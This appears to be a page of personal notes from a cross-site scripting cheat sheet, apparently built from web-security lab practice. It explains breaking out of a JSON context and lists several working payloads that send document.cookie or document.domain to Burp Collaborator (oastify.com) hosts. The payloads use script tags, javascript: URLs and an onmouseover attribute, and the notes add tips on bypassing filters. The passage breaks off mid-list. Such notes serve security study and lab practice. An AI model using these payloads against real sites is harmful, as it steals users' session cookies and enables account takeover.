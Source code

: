* An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the alert() function is called. Finally, a closing curly bracket and two forward slashes close the JSON object early and comment out what would have been the rest of the object. As a result, the response is generated as follows:

```javascript
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

* Using the above context, the following payload can be used to exfiltrate information: (Note: The random query parameter 'x' was included so that way the document cookie will correctly be included in the request sent to Burp Collaborator. This behavior is similar to a lab, where we used the Exploit Server to exfiltrate data.)

```javascript
\" - (document.location = 'https://xxxx.oastify.com/x?=' + document.cookie)}//
```


<br><br>

* Payload technique was constructed from the XSS cheat sheets.  This submits a request with user's cookie to Burp Collaborator.

```javascript
<script> window['document']['location'] = "https://xqr9xaoylma.oastify.com/?test1=" + document.cookie + "test1"; </script>
```

<br><br>

* Payload using the javascript protocol ( javascript:alert(1) )to send data over to server under our control.  The "document.domain" can be changed to "document.cookie", etc.  After testing this it is recommended to just URL encode the entire payload before submitting it. (Note: the ?test parameter used in the Burp Collaborator was required in order to process it correctly)

```javascript
javascript:window['document']['location'] = "https://2q9hxdl2.oastify.com/?test=" + document.domain + "test123"
```

<br><br>

* Context is within an HTML attribute and angle brackets are encoded:
    
    * Note:  Encoding the payload actually made it not work so it's good to try many things. The closing quotation is not included since one will be there with the current context.
      
```javascript
test123" onmouseover="document.location = 'https://xxx.oastify.com/?x=' + document.domain
```

<br><br>

* If the application is encoding angle brackets/double quotes and escaping single quotes, the below payloads can help bypass restrictions:

    * Steps:  Go to CyberChef and select "To Decimal" and set the Delimiter to "Comma".  Paste the payload results within the "String.fromCharCode()" function.

* Original Payload: (did not work as single quotes escaped, document.location did not work correctly)
